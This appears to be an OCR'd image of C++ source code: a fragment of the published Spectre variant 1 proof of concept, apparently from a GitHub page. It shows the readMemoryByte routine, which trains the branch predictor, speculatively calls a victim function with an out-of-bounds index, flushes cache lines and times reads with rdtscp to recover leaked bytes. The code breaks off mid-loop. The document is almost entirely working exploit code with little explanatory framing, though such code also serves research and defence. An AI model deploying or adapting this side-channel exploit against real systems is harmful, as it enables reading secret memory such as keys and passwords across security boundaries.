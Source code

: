 ```cpp

/********************************************************************
Analysis code
********************************************************************/
#define CACHE_HIT_THRESHOLD (80) /* assume cache hit if time <= threshold */

/* Report best guess in value[0] and runner-up in value[1] */
void readMemoryByte(size_t malicious_x, uint8_t value[2], int score[2])
{
    static int results[256];
    int tries, i, j, k, mix_i;
    unsigned int junk = 0;
    size_t training_x, x;
    register uint64_t time1, time2;
    volatile uint8_t* addr;

    for (i = 0; i < 256; i++)
        results[i] = 0;
    for (tries = 999; tries > 0; tries--)
    {
        /* Flush array2[256*(0..255)] from cache */
        for (i = 0; i < 256; i++)
            _mm_clflush(&array2[i * 512]); /* intrinsic for clflush instruction */

        /* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
        training_x = tries % array1_size;
        for (j = 29; j >= 0; j--)
        {
            _mm_clflush(&array1_size);
            for (volatile int z = 0; z < 100; z++)
            {
            } /* Delay (can also mfence) */

            /* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
            /* Avoid jumps in case those tip off the branch predictor */
            x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
            x = (x | (x >> 16)); /* Set x=-1 if j%6=0, else x=0 */
            x = training_x ^ (x & (malicious_x ^ training_x));

            /* Call the victim! */
            victim_function(x);
        }

        /* Time reads. Order is lightly mixed up to prevent stride prediction */
        for (i = 0; i < 256; i++)
        {
            mix_i = ((i * 167) + 13) & 255;
            addr = &array2[mix_i * 512];
            time1 = __rdtscp(&junk); /* READ TIMER */
            junk = *addr; /* MEMORY ACCESS TO TIME */
            time2 = __rdtscp(&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
            if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
                results[mix_i]++; /* cache hit - add +1 to score for this value */
        }

        /* Locate highest & second-highest results results tallies in j/k */
        j = k = -1;
        for (i = 0; i < 256; i++)
        {
            if (j < 0 || results[i] >= results[j])
            {
                k = j;
                j = i;
```